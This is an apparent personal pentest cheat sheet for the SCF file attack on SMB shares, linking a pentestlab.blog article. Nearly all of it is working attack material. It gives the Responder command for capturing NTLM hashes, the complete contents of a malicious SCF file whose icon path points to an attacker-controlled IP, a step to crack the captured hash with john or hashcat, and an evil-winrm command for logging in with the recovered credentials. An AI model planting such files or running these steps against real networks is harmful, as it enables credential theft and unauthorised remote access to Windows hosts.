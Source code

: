 # SCF file Attack

[SMB Share – SCF File Attacks – Penetration Testing Lab (pentestlab.blog)](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/)

![Untitled](SCF%20file%20Attack%208e878f4505f74727a0a0373c0ebfc882/Untitled.png)

```bash
sudo responder -w -I tun0
```

File Content

```bash
[Shell]
Command=2
IconFile=\\10.10.14.4\tools\nc.ico
[Taskbar]
Command=ToggleDesktop
```

Get the NTLM hash with the responder

Crack the hash with john or hascat 

```bash
evil-winrm -i 10.10.10.10 -u user -p pass
```
